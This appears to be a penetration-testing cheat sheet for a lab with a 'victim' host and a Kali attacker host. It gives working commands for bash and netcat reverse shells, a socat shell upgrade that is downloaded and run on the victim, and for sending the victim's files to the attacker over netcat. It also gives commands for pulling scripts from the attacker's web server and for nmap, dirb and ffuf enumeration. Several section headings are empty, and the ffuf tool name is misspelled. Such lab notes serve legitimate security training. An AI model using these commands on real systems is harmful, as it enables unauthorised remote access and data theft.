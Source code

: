 > Victim host 10.10.10.77 and Kali host 10.10.10.10

## Useful Commands

### Create web server

#### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

#### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## Send files

### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

## Reverse shells

### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

### Listener

```
nc -lvp 4444
```

# Enumeration

### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

## If Web Server

### dirb

Quick directory busting

```
dirb http://10.10.10.77/
```

### fuff

VHOST Discovery

```
fuf -w subdomains-top1million-110000.txt -u https://10.10.10.10/ -H "Host:FUZZ.10.10.10.10"
```

# Privilege Escalation

# Reverse Engineering

# Some Scripts

# References
